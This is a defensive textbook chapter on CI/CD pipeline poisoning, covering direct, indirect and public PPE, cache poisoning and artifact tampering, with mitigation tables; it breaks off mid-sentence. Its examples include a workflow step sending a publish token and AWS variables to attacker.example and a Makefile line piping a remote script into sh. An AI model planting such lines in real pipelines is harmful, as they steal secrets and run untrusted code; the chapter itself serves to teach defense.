





# Chapter 7 — Pipeline Poisoning: PPE, Cache, and Artifact Attacks

*What this chapter covers.* Chapter 4 introduced Poisoned Pipeline Execution (PPE) as the
central CI/CD attack primitive and named its three flavours. This chapter is the
mechanism-level treatment: *how* an attacker actually gets code to run inside a privileged
pipeline, and — once there, or even without full execution — how they poison the shared inputs
that pipelines trust. The through-line is a single, uncomfortable fact: **a pipeline definition,
and everything it reads, is code that executes with the pipeline's privileges** — its secrets,
its signing keys, its deploy credentials, its cloud identity. Getting your content into that
execution *is* remote code execution in one of the most privileged contexts your organization
operates. We give PPE its full treatment (direct, indirect, public), trace the privilege
escalation and lateral movement that follow a foothold, then turn to two quieter but
high-impact vectors that do not always require classical code execution at all: **cache
poisoning** — subverting the shared build and dependency caches that pipelines pull and trust —
and **artifact integrity attacks** — tampering with the build output between production and
publication. We close by mapping every attack to its control, and by stating the one principle
that unifies the defenses: untrusted input must never execute in a context that holds
secrets or deploy privileges without a trust boundary between them.

Learning goals — after this chapter you should be able to:

- Explain **direct, indirect, and public PPE** at the level of the specific files and events
  each exploits, and why indirect PPE is the most commonly overlooked.
- Recognize the **invoked-file attack surface** — Makefiles, `package.json` lifecycle scripts,
  Dockerfiles, test files, linter configs, pre-commit hooks — and why locking down the workflow
  YAML alone is insufficient.
- Enumerate what a PPE foothold yields: **secret exfiltration, artifact tampering, malicious
  deployment, cloud pivot, runner persistence, and cross-tenant reach.**
- Describe **cache poisoning** across CI dependency caches, GitHub Actions cache, Bazel/remote
  build caches, `ccache`, and Docker layer caches — including **cross-context poisoning**, where
  a low-privilege build writes an entry a high-privilege build later trusts.
- Explain why **content-addressing by input digest does not by itself defeat a lying cache**,
  and what actually does (authz, trust-scoping, signed entries, re-execution).
- Map **artifact-tamper threats** (SLSA (E)/(F)) to the controls that detect them —
  build-time provenance and signing, verified downstream.
- Design the **trusted/untrusted execution split** as the fundamental structural defense.

## The pipeline reads code, therefore the pipeline runs code

Chapter 4 reduced most CI/CD attacks to one objective: get your code to run in the CI context.
It is worth stating the mechanism precisely because it explains why the attack surface is so
much larger than the workflow YAML.

A pipeline run is an interpreter. It reads a definition — `.github/workflows/*.yml`, a
`.gitlab-ci.yml`, a `Jenkinsfile`, a Tekton `PipelineRun` — and executes the steps it contains.
But those steps are almost never self-contained. A typical step is `make build`, `npm ci`,
`pytest`, `./gradlew assemble`, `docker build .`, or `pre-commit run --all-files`. Each of those
commands is itself an interpreter that reads *more* repo-controlled files — a `Makefile`, a
`package.json`, a test module, a Gradle script, a `Dockerfile`, a `.pre-commit-config.yaml` — and
executes *them*. The workflow YAML is only the outermost shell of a deeply nested tree of
repo-controlled code, and every node in that tree runs with the same authority: whatever secrets,
tokens, and identity the job holds.

This is why "we require review on `.github/workflows/`" is a partial control at best. It protects
the root of the tree and leaves the entire subtree — where most of the interesting injection
surface lives — governed by ordinary code review, or by nothing at all. An attacker who cannot
touch the YAML edits the `Makefile` the YAML calls, and reaches exactly the same execution
context.

PPE is the umbrella term (OWASP CICD-SEC-4) for manipulating that execution. The taxonomy —
direct, indirect, public — comes from the CI/CD attack research originally published by Cider
Security (later Palo Alto Networks / Prisma Cloud), which also seeded the OWASP Top 10 CI/CD
Security Risks. The three flavours differ only in *which* node of the tree the attacker
influences and *how* they trigger execution; the payoff is identical.



## Direct PPE (D-PPE): editing the pipeline definition

Direct PPE is the obvious case. The attacker modifies the pipeline definition itself and the
platform runs the modified version. The subtlety is not the concept but the *triggering
conditions* — specifically, whether the platform runs the version of the definition that the
attacker just changed.

The canonical D-PPE is a pull request that edits the CI configuration and is triggered by that
same event. On most platforms, a workflow triggered by `push` or a same-repo `pull_request` runs
the pipeline definition *as it exists on the PR branch*. So a contributor with push access (or,
on some platforms, anyone who can open an internal PR) adds a step:

```yaml
# .github/workflows/ci.yml — attacker's PR edits the workflow itself
on: [push, pull_request]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: "innocuous-looking step"
        run: |
          curl -s -X POST https://attacker.example/collect \
            -d "token=${{ secrets.NPM_PUBLISH_TOKEN }}&aws=$(env | grep AWS_)"
```

If that workflow runs with secrets in scope, the PR *is* code execution the moment CI picks it
up. GitHub Actions mitigates the fork case (fork PRs get a read-only token and no secrets — see
Chapter 4's `pull_request` vs `pull_request_target` discussion, and Chapter 5), but the
same-repo case, and other platforms with looser defaults, remain exposed. On GitLab, a
`.gitlab-ci.yml` edited in a merge request runs with the pipeline's variables unless protected
by protected-branch/environment scoping. On a Jenkins multibranch pipeline that builds every
branch, an edited `Jenkinsfile` on a feature branch runs with the agent's full credential set.

D-PPE is loud — the malicious change sits in the security-reviewed file — but it succeeds
constantly because the triggering conditions are misconfigured or the "review" is a rubber stamp.
The mitigations are correspondingly direct:

- **Do not run PR-modified pipeline definitions with secrets or deploy privileges.** Untrusted
  or unreviewed changes to the definition should execute, if at all, in a no-secrets context.
- **Require review on CI configuration**, and enforce it with branch protection so the definition
  cannot be changed and self-triggered in one motion.
- **Put pipeline files under CODEOWNERS** so a platform/security team — not just any repo
  committer — must approve changes to `.github/workflows/`, `.gitlab-ci.yml`, `Jenkinsfile`.
- Where the platform supports it, **pin the definition to a protected ref**: run the trusted,
  base-branch version of the pipeline even when building PR content (this is exactly what
  `pull_request_target` does — safely *only* if it does not then check out and execute the PR's
  code).

## Indirect PPE (I-PPE): editing the files the pipeline invokes

Indirect PPE is the more important half of the taxonomy, precisely because it defeats the
control most teams believe protects them. The workflow YAML is locked down, CODEOWNERS guards it,
reviews are enforced — and none of it matters, because the attacker never touches the YAML. They
edit a file the YAML *invokes*, which lives under ordinary code review and is often changeable by
anyone who can merge application code.

The injection surface is everything the pipeline shells out to. The recurring offenders:

**Makefiles.** The workflow says `run: make build`. `make` reads the `Makefile`, which is
repo-controlled. A PR that adds a shell command to the `build` target — or to any prerequisite of
it, or to a `.PHONY` helper the target depends on — runs with the job's secrets.

```makefile
build: prepare
	go build ./...

prepare:
	@# added in a "refactor the build" PR; runs before every build
	curl -s https://attacker.example/x.sh | sh
```

**`package.json` lifecycle scripts.** `npm ci`, `npm install`, and even `npm ci --ignore-scripts`
(if the flag is forgotten) run `preinstall`/`install`/`postinstall`/`prepare` scripts from the
project *and its dependencies*. A change to the project's own `package.json` scripts, or the
introduction of a dependency whose install script fires, executes during the CI install step —
the same class of foothold as the Codecov and event-stream lessons (Book 1, Chapter 4 and
Chapter 5), but reached through the pipeline rather than through end-user installs.

```json
{
  "scripts": {
    "postinstall": "node ./scripts/telemetry.js"
  }
}
```

The reviewer sees a plausible `postinstall`; `telemetry.js` reads `process.env` and exfiltrates.

**Dockerfiles.** The pipeline runs `docker build .`. Every `RUN` line executes at build time; a
`RUN` that curls and pipes, or an `ARG`/`ENV` that captures a build secret passed via
`--build-arg`, or a `--mount=type=secret` misuse, turns the image build into a code-execution and
secret-capture step. Multi-stage builds do not help if the malicious `RUN` is in the stage that
sees the secret.

**Test files.** The pipeline runs `pytest`, `go test ./...`, `jest`. Tests are code, collected and
executed automatically. A `conftest.py`, a `test_*.py`, a `*_test.go` with a package-level `init()`
or `TestMain`, or a Jest `setupFiles` entry runs during the test phase — a phase that frequently
holds more privilege than "just testing" implies (integration tests reach real credentials).

**Linter, formatter, and tool configs that shell out.** Many tools execute code from their config.
A `.pre-commit-config.yaml` names *repositories and entry points* to run; pointing a local hook at
an attacker-controlled script, or adding a repo whose hook executes arbitrary code, runs during
`pre-commit run`. ESLint plugins, custom Gradle plugins, `Rakefile`/`Gruntfile`/`gulpfile`
tasks, `setup.py`/`conftest` — anything the pipeline invokes that itself loads repo-controlled
executable configuration is an I-PPE vector.

**Build scripts and codegen.** `./scripts/build.sh`, `go generate ./...` (which runs `//go:generate`
directives embedded in source), Bazel `genrule`s, `protoc` plugins — all are repo-controlled code
the pipeline executes.

The defining property of I-PPE is *distance*: the malicious change lives far from the file the
security team watches. A diff that adds one line to a `Makefile` prerequisite, or a `postinstall`
one-liner, or a new `conftest.py`, sails through review that is scrutinizing application logic, not
hunting for a shell escape. And because these files are not "CI config," they usually are not under
CODEOWNERS and do not trigger the platform team's review.

Mitigations for I-PPE are structural, not spot fixes:

- **Extend CODEOWNERS and required review to the invoked files, not just the YAML** — build
  scripts, `Makefile`, `package.json`, `Dockerfile`, `.pre-commit-config.yaml`, test bootstrap
  files. If the pipeline runs it with secrets, it deserves the same review gate as the pipeline.
- **Run the untrusted phases without secrets.** Building and testing a PR should not have deploy
  credentials or publish tokens in scope. Separate the "run repo code" phase from the "use
  privilege" phase (the trusted/untrusted split, below).
- **Disable lifecycle scripts where you can** (`npm ci --ignore-scripts`, and vet the few packages
  that legitimately need them), and prefer install steps that do not execute package code.
- **Least-privilege the job** (Chapter 6): even a successful I-PPE is bounded by what the runner's
  identity can reach.

## Public PPE: the fork-PR and self-hosted-runner exposure

Public PPE is I-PPE or D-PPE where the attacker has *no commit access at all* — the injection
arrives via a pull request from a fork of a public (or widely accessible internal) repository.
This is the most dangerous flavour because the attacker population is the entire internet.

The mechanics are covered in Chapter 4 (the `pull_request` vs `pull_request_target` footgun) and
hardened in Chapter 5, so we only restate the shape: a fork PR is untrusted code. It becomes
public PPE when the platform runs that code with real privilege. Two paths dominate. First, the
`pull_request_target` (or GitLab equivalent) misconfiguration that checks out and executes PR-head
code in a job that holds secrets. Second, **self-hosted runners** attached to public repositories:
a fork PR's job lands on a runner the org controls, and if the runner is non-ephemeral, the
attacker not only executes but can *persist* on the machine and intercept later, more privileged
jobs (Chapter 8). The `tj-actions/changed-files` compromise of March 2025 (Chapter 4) is the
canonical recent illustration of how a single poisoned execution surface fans out across everyone
who trusts it.

The correct posture: untrusted fork code runs in the no-secrets `pull_request` context on
**ephemeral, isolated** runners, and never on a runner or in a job that can reach production
credentials. Public PPE is simply the trusted/untrusted split failing at the repository's outer
boundary.



### PPE at a glance

| PPE type | Attacker capability | Primary vector | What makes it work | Core mitigation |
|----------|--------------------|-----------------|--------------------|-----------------|
| **Direct (D-PPE)** | Can edit the pipeline definition (push/PR) | `ci.yml`, `.gitlab-ci.yml`, `Jenkinsfile` edited and self-triggered | Platform runs the *modified* definition with secrets | Don't run PR-modified defs with secrets; CODEOWNERS + required review on CI config; run protected-ref definition |
| **Indirect (I-PPE)** | Can edit any file the pipeline invokes | `Makefile`, `package.json` scripts, `Dockerfile`, tests, linter/pre-commit configs, build scripts | Locked-down YAML still calls attacker-edited code | CODEOWNERS/review on invoked files too; run untrusted phases without secrets; `--ignore-scripts`; least privilege |
| **Public** | None (fork PR / external contributor) | Fork PR carrying D- or I-PPE payload, plus `pull_request_target` misuse or self-hosted runner | Untrusted PR code executed with privilege / on persistent runner | `pull_request` no-secrets context; ephemeral isolated runners; never check out+run PR head with secrets |

## From foothold to blast radius: escalation and lateral movement

A PPE foothold is code execution as the CI job's identity. What that yields is a function of what
the job can reach — which, in most organizations, is far too much (OWASP CICD-SEC-5, insufficient
pipeline-based access controls). The escalation paths, roughly in order of immediacy:

**Secret exfiltration.** The job's environment and mounted secret stores are readable by the code
it runs. Publish tokens, registry credentials, signing keys held in the job, cloud static
credentials, and — critically — the platform token itself (`GITHUB_TOKEN`, GitLab `CI_JOB_TOKEN`)
are all reachable. The stolen credential outlives the pipeline run and is used off-platform.

**Artifact tampering.** The attacker does not exfiltrate anything; they modify the build output
in place. This is the SolarWinds pattern (Book 1, Chapter 3): the build ran, the source was clean,
but a malicious build step injected code into the artifact before it was signed and shipped —
producing a validly signed, trojaned deliverable. From a PPE foothold this is a small step: you
already execute inside the build. We treat the detection of this class in the artifact-integrity
section below.

**Malicious deployment.** If the job holds deploy privilege — a `kubectl` context, a cloud deploy
role, a Helm/Argo trigger — the attacker deploys their own code to production directly, bypassing
the artifact path entirely.

**Cloud pivot via CI identity.** Modern pipelines federate to cloud via OIDC workload identity
(Book 5, Chapter 4). The job exchanges its platform token for short-lived cloud credentials. A PPE
foothold performs that exchange itself and inherits the mapped cloud role — and if that role is
broad (a common failing), the pipeline becomes an entry point into the cloud control plane
(Book 6, Chapter 9). The credential is short-lived, but the attacker is *inside the job* when it
is minted, so lifetime buys little.

**Persistence on non-ephemeral runners.** On a self-hosted or reused runner, the attacker writes to
disk, installs a background process, tampers with the runner agent or its tool cache, and waits for
a higher-privilege job to land on the same machine (Chapter 8). This converts a one-shot execution
into an implant that harvests every subsequent job's secrets.

**Cross-tenant reach.** On shared build infrastructure with weak isolation, a foothold in one
tenant's job can observe or interfere with another tenant's job — via shared runner state, a shared
cache (next section), a shared Docker daemon, or a shared filesystem (Chapter 4's isolation
discussion; Book 1, Chapter 9 on fleet-wide blast radius).

The lesson: **the value of a PPE foothold is set by the standing privilege of the pipeline, not by
the cleverness of the payload.** This is why Chapter 6 (least-privilege CI identity) and Chapter 8
(ephemeral isolation) are the load-bearing mitigations — they shrink what any foothold can do.

## Cache poisoning: subverting a trusted shared input

Everything so far has required code execution. Cache poisoning is subtler and, in some
architectures, does not require executing anything in the victim build at all. It exploits a
structural assumption: **caches are trusted inputs.** Builds pull cached dependencies, cached
compiler outputs, cached layers, and cached action outputs, and they *use them without
re-verifying that they are what they should be.* That is the entire point of a cache — skip the
work, trust the stored result. If an attacker can write a poisoned entry that a victim build
later reads, the poison flows into the victim's output with none of the review, provenance, or
signing that guards the source path. It is persistent (the entry survives until evicted), stealthy
(nothing in the victim's source changed), and fan-out (every build that hits the key is affected).

The caches worth worrying about, from most to least familiar:

- **CI dependency caches.** `actions/cache`, GitLab `cache:`, CircleCI `save_cache` — storing
  `~/.m2`, `node_modules`, `~/.cache/pip`, the Go build/module cache, etc., keyed by a lockfile
  hash or a manual key.
- **Remote build caches.** Bazel's remote cache, Gradle's build cache, `sccache`, `ccache` — storing
  the *outputs of build actions* (compiled objects, linked binaries) so they need not be rebuilt.
- **Docker layer cache.** BuildKit's `--cache-from`/`--cache-to` against a registry or inline cache,
  and the local layer cache — storing built image layers.
- **Language/module caches and tool caches** — the Actions tool cache, `$GOMODCACHE`, npm's content
  cache, and similar.

### Cross-context cache poisoning: low-privilege writes, high-privilege reads

The most impactful CI cache-poisoning pattern is a *trust inversion*: a low-privilege build writes a
cache entry that a high-privilege build later reads and trusts. The classic setting is a shared
cache namespace across trust levels — a pull-request build (untrusted) and a `main`/release build
(trusted) reading and writing the same cache keys.

GitHub Actions cache isolation is the well-studied instance, and the mechanism is worth
understanding precisely because the defaults are more permissive than intuition suggests. Actions
caches are scoped by ref: a workflow run can *restore* caches created in its own branch, in its
base branch, and in the repository's default branch; and a cache saved by a run is available to
that branch and its descendants. The consequence is a readable path from lower-trust refs upward.
A build running on a feature branch or a (same-repo) PR can save a cache under a key that a later
build on the base or default branch will restore — and the restoring build treats those bytes as
its own prior output. If the cached content is a compiled dependency, a `node_modules` tree, or a
tool binary, the high-privilege build links or runs attacker-controlled bytes. Security researchers
have demonstrated exactly this cross-branch write-then-restore poisoning against Actions caches,
and tooling exists to automate planting poisoned entries; GitHub's scope restrictions narrow but do
not eliminate the readable-upward path, and fork PRs are more constrained (they cannot write into
the base repo's cache scope). The residual risk lives in the *same-repo lower-trust* write that a
higher-trust read consumes.



The defense is **trust-scoping**: the cache namespace a trusted build reads must be writable *only*
by equally-trusted contexts. Concretely — separate cache keys or separate cache backends for
PR/untrusted builds versus protected-branch builds; never let a build that runs untrusted code
write into a scope a release build restores; and treat any restored cache as untrusted input if you
cannot guarantee its writer's trust level (validate lockfile hashes match, re-resolve dependencies
against a pinned lockfile, or verify integrity of restored content).

### Remote build caches: content-addressing is not integrity

Remote build caches (Bazel's most prominently, but the reasoning applies to Gradle's cache,
`sccache`, and any Remote Execution API cache) are where cache poisoning becomes a fleet-scale
supply-chain problem — and where a common misconception must be dismantled.

A Bazel remote cache stores, for each build *action*, the outputs that action produced, keyed by a
digest of the action's inputs (command line, input file hashes, environment). This is "content
addressing," but note *what* is addressed: the **key is the hash of the action's inputs, not the
hash of the output.** When a builder computes an action key and finds a matching entry, it
downloads the stored output and uses it **instead of executing the action** — that is the whole
value proposition. Bazel does not verify that the cached output is what executing the action *would
have* produced; it trusts whoever wrote the entry. Therefore:

> Content-addressing by input digest does not defend against a lying cache. Anyone who can compute
> an action key and can **write** to the cache can plant an arbitrary output under that key, and
> every builder that trusts the cache will use it without re-execution.

An unauthenticated, world-writable remote build cache is thus a direct path to compromising every
build that reads it: the attacker predicts (or trivially reproduces) the action key for
`compile //server:main` and writes a poisoned object file; the next fleet build downloads it and
links the attacker's code into a signed production binary, having "built from clean source" the
whole way. This ties directly to the hermeticity and caching-correctness discussion of Chapter 2:
a remote cache is only sound if the mapping from action key to output is *trustworthy*, and input
non-determinism (which breaks hermeticity) is exactly what lets an attacker's output masquerade as
a legitimate one under a shared key.

Remote build cache mitigations, in priority order:

- **Authenticate and authorize writes.** Reads may be broad; **writes must be restricted to
  trusted builders.** The single most important control: untrusted contexts (PR builds, developer
  machines, fork CI) get a **read-only** cache token, and only the protected build path can write.
  Bazel supports this split directly (`--remote_upload_local_results=false` for untrusted readers).
- **Never share a writable cache across trust levels.** A PR build and a release build must not
  write the same cache. If untrusted builds need caching, give them a separate backend they cannot
  use to poison the trusted one.
- **Prefer hermetic, deterministic actions** (Chapter 2) so that action keys actually pin outputs —
  and consider **re-execution or attestation of cache entries** for high-value targets: sign cache
  entries with the trusted builder's identity and verify the signature before use, so a poisoned
  entry from a non-trusted writer is rejected.
- **Isolate the cache network path** and require TLS + auth so it cannot be poisoned by a
  network-position attacker.

### Docker layer cache poisoning

The Docker/BuildKit layer cache is a specific instance of the same trust problem. `--cache-from` a
registry location tells BuildKit to reuse layers from there; if that location is writable by an
untrusted party (a permissive registry path, a shared cache tag), poisoned layers are imported into
the build and baked into the resulting image. Inline cache metadata and layer cache in a shared
builder likewise cross trust boundaries when builders are reused. Mitigation mirrors the above:
pull cache only from trusted, access-controlled locations; do not import cache written by untrusted
builds; and prefer ephemeral builders (Chapter 8) so local layer state does not persist across
tenants.

## Artifact integrity attacks: tampering between build and publish

The final vector attacks the artifact *after* it is built but *before or at* the point it is
trusted downstream. The build produced X; something on the path to the registry substitutes X′.
Nothing about the source changed, and — crucially — the build may have been entirely honest. This
is SLSA's build-and-distribution tamper region: threat **(E)** is a compromised build *process*
that emits a bad artifact during the build (the PPE/SolarWinds case above), and threat **(F)** is
uploading a modified package that did not come from the proper build — tampering after the build,
or bypassing it (Book 1, Chapters 1–3, which enumerate SLSA's A–H threats). The distinction matters
for *where* you detect it, but the defense is the same shape.

The concrete forms:

- **A malicious post-build step swaps the artifact.** In a pipeline with a PPE foothold, or simply
  with a poorly-scoped step running after the build, the file on disk is replaced before the
  publish/sign step reads it. The build logs show a clean compile; the bytes shipped are not the
  bytes built.
- **Substitution in transit or storage.** Between the build runner and the registry, or at rest in
  the registry/artifact store, the artifact is replaced — via a compromised registry (Book 6,
  Chapter 2; Book 2, Chapter 8 for internal registries), a man-in-the-middle where transport
  integrity is not enforced, or a privileged actor with write access to the store.
- **Dependency substitution during the build.** A poisoned build-time dependency — fetched
  unpinned, or via a confusable name, or from a poisoned mirror — is linked into the output
  (Book 2, Chapter 3 and Chapter 4). This is upstream of the artifact but produces the same result:
  the shipped artifact contains code that was never in the reviewed source.

The defense is not to prevent every tampering opportunity — the path from build to consumer is long
and has many privileged actors — but to make tampering *detectable* by binding a cryptographic
identity to the exact bytes at the moment of build, and verifying that binding downstream.
**Generate provenance and sign the artifact at the instant it is built, in an isolated context the
build steps cannot themselves forge (SLSA Build L3; Chapter 3, Book 5), then verify signature and
provenance at every trust transition** — publish, admission, deploy. Provenance records the subject
*digest*; signing binds that digest to a builder identity. Any post-build swap changes the digest,
so the signature no longer verifies and the provenance subject no longer matches — the substitution
is caught at the gate.



This is why provenance and signing are framed throughout this suite as *detection* controls, not
prevention: they do not stop a privileged actor from replacing the artifact, but they guarantee the
replacement cannot pass as the original. The detection is only as strong as the isolation of the
signing step (a build that can reach its own signing key can re-sign the tampered output — the
SolarWinds-class self-forgery that L3 exists to prevent) and the diligence of downstream
verification (Book 5, Chapter 8; Book 6, Chapters 5–6).

## Defenses synthesis: mapping attacks to controls

The attacks in this chapter are diverse in mechanism but converge on a small set of controls. The
table maps each to its detection/prevention control and the chapter that develops it.

| Attack | Prevention / detection control | Where developed |
|--------|-------------------------------|-----------------|
| **D-PPE** (edit the definition) | Don't run PR-modified defs with secrets; required review + CODEOWNERS on CI config; run protected-ref definition | This chapter; Ch 4, 5 |
| **I-PPE** (edit invoked files) | CODEOWNERS/review on build scripts, `Makefile`, `package.json`, `Dockerfile`, test/pre-commit configs; `--ignore-scripts` | This chapter |
| **Public PPE** (fork PR) | `pull_request` no-secrets context; ephemeral isolated runners; never checkout+run PR head with privilege | Ch 4, 5, 8 |
| **Escalation** (secrets, deploy, cloud pivot) | Least-privilege CI identity; short-lived scoped OIDC creds; egress control | Ch 6; Book 5 Ch 4; Book 6 Ch 9 |
| **Runner persistence** | Ephemeral, single-use, isolated runners | Ch 8 |
| **Cross-tenant reach** | Runner/cache isolation per tenant | Ch 4, 8; Book 1 Ch 9 |
| **CI cache poisoning** (cross-context) | Trust-scoped cache keys/backends; untrusted builds can't write trusted scopes; treat restored cache as untrusted | This chapter |
| **Remote build cache poisoning** | Authenticated/authorized cache; read-only for untrusted writers; hermetic actions; signed cache entries | This chapter; Ch 2 |
| **Docker layer cache poisoning** | Trusted cache sources only; ephemeral builders | This chapter; Ch 8 |
| **Artifact tamper (build→publish, SLSA E/F)** | Build-time provenance + signing in isolated context; verify downstream | Ch 3; Book 5 Ch 8; Book 6 Ch 5–6 |
| **Build-time dependency substitution** | Pinning, lockfile verification, private-scope protection | Book 2 Ch 3–4 |
| **Exfiltration / anomaly** | Egress allowlisting; observability + anomaly detection | Ch 9 |

Read down the "control" column and a pattern emerges. Nearly every entry is an instance of one of
four disciplines: **(1)** review and protect the code the pipeline runs — *all* of it, not just the
YAML; **(2)** run untrusted input without privilege, and privileged work without untrusted input;
**(3)** scope and authenticate the shared inputs (caches) and outputs (artifacts) so trust is not
inherited by proximity; **(4)** detect what you cannot prevent, with provenance, signing, egress
control, and observability.

### The trusted/untrusted execution boundary

The second discipline is the fundamental one, and it deserves to be drawn explicitly because it
subsumes the others. The single structural defense against pipeline poisoning is to **split
execution into an untrusted zone that runs repo/PR/fork code with no secrets and no deploy path,
and a trusted zone that holds privilege but never executes unreviewed input** — with a hard
boundary, and only vetted data crossing it.



Everything else in the chapter is an attack that *violates* this boundary: PPE runs untrusted code
in the trusted zone; cross-context cache poisoning lets untrusted-zone writes flow into
trusted-zone reads; artifact tampering slips modified bytes across the boundary without
re-verification. State the principle once and it governs all of them:

> **Untrusted input — PR code, fork contributions, cache entries, build-time dependencies — must
> never execute in, or flow unverified into, a context that holds secrets or deploy privileges,
> without a trust boundary between them.**

## Distributed-systems lens

At single-repo scale you can hold the trusted/untrusted split in your head. At fleet scale — many
teams, many repos, a shared build platform — the split has to be *structural and standardized*,
because the failure modes are shared and the blast radius is fleet-wide.

**Shared caches are shared blast radius.** The remote build cache that makes a large monorepo's
builds fast (Bazel, Gradle, `sccache`) is, by construction, read by every builder in the fleet. It
is therefore the single highest-value poisoning target in the system: one poisoned entry under a
common action key is linked into every downstream build that hits it. The performance argument for
a shared writable cache is exactly the security argument against it. The resolution is not to
abandon the cache but to make its trust model explicit — broad authenticated reads, narrow trusted
writes, hermetic actions so keys pin outputs, and signed entries for high-value targets. A cache
without integrity and authz is not an optimization; it is an unmonitored write path into every
production binary (Book 1, Chapter 9 on fleet-wide compromise).

**Shared runners are shared persistence risk.** Reused runners across tenants turn a single PPE
foothold into a fleet implant (Chapter 8). Cross-tenant cache poisoning and runner persistence are
the two ways one team's compromise becomes every team's compromise on shared infrastructure, which
is why isolation is a platform-level guarantee, not a per-team choice.

**Standardize the split in the paved road.** No individual team should be one misconfigured
`pull_request_target` or one shared cache key away from running fork code with production
credentials. The platform team's job (Chapter 10) is to encode the trusted/untrusted boundary into
the paved-road pipeline templates so it is the *default* and the *only easy path*: untrusted phases
run on ephemeral isolated runners with no secrets and read-only caches; the privileged
publish/deploy phase runs from a protected ref, with least-privilege short-lived credentials, and
consumes only vetted, verified artifacts. Make the secure split the default and the fleet inherits
it; leave it to each team and someone, somewhere, will run `npm ci` on a fork PR with a publish
token in scope.

**Detection is centralized too.** Because provenance and signing are generated at the shared build
platform (Chapter 3), artifact-tamper detection is a platform property every tenant gets for free —
one verification policy at the admission gate (Book 6, Chapters 5–6) catches post-build swaps across
all tenants at once. And egress control plus build observability (Chapter 9) at the platform layer
turn exfiltration and anomalous pipeline behaviour into signals the whole fleet is monitored for,
rather than something each team must instrument itself.

## Key takeaways

- **A pipeline runs everything it reads.** The workflow YAML is only the root of a tree of
  repo-controlled code — `Makefile`, `package.json` scripts, `Dockerfile`, tests, linter and
  pre-commit configs, build scripts — all executed with the job's full privilege. Securing the
  YAML alone secures the root and ignores the subtree.
- **Direct PPE** edits the pipeline definition; **indirect PPE** edits a file the definition
  invokes; **public PPE** delivers either via a fork PR with no commit access. I-PPE is the most
  overlooked because the malicious change lives far from the security-reviewed CI config.
- **Extend review and CODEOWNERS to the invoked files, not just the workflow.** If the pipeline
